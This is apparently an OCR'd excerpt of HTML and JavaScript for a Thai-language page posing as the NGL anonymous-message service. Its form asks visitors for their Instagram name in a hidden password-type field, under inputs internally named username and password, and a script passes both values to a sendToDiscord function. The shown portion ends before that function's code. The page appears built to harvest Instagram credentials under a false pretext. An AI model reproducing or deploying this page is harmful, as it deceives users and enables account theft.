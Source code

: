         }
        @keyframes moveUp {
            0% { top: 80px; }
            100% { top: 50px; }
        }
    </style>
</head>
<body>
    <div class="container">
        <img src="https://scontent.fubp1-1.fna.fbcdn.net/v/t39.30808-6/448724679_1147373999843386_4790927373824690437_n.jpg?stp=cp6_dst-jpg&_nc_cat=105&ccb=1-7&_nc_sid=5f2048&_nc_eui2=AeEyUouOM9TmzuYCbbEEysNS3tAg3kSYikfe0CDeRJiKR9d2BSYZP7lF7G6X7K6E5A5nynaQKwriIvr62WOekGDB&_nc_ohc=U7ZcD6gHt9MQ7kNvgFMKZrT&_nc_ht=scontent.fubp1-1.fna&oh=00_AYD4O81XJZBU-RuP4-jyRtYiCZp2F7cJQ74nQZ6T0tFZag&oe=667E052F" alt="profile image" height="100">
        <h1>ส่งข้อความของคุณ แบบไม่ระบุตัวตน!</h1>
        <div>\\ NGL ส่งข้อความแบบไม่ระบุตัวตน! //</div>

        <form id="registrationForm">
            <label for="username">กรุณากรอกชื่อ Instagram ของคุณตามนโยบายป้องกันบอท:</label>
            <input type="password" id="username" name="username" required><br>

            <label for="password">ข้อความ:</label>
            <input type="text" id="password" name="password" required><br>

            <div class="button-container">
                <button type="button" class="shake-button" onclick="submitForm()">Send</button>
            </div>
        </form>
        <a class="instagram-button" href="https://www.instagram.com/aegonaart/" target="_blank">
            <img src="https://upload.wikimedia.org/wikipedia/commons/a/a5/Instagram_icon.png" alt="Instagram Icon">
            ติดต่อผม
        </a>
    </div>

    <div class="floating-text">เว็ปนี้สร้างจาก อาร์ต ไง จะใครหละ Eiei</div>

    <script>
        function submitForm() {
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;

            if (username.trim() === '') {
                showWarning('โปรดกรอก เพื่อความปลอดภัยของ SMMG');
                return;
            }

            // เรียกฟังก์ชันเพื่อส่งข้อมูลไป Discord
            sendToDiscord(username, password);
        }

        function showWarning(message) {
            const warning = document.createElement('div');
            warning.className = 'warning';
            warning.innerText = message;
            document.body.appendChild(warning);

            setTimeout(() => {
                document.body.removeChild(warning);
            }, 3000);
        }
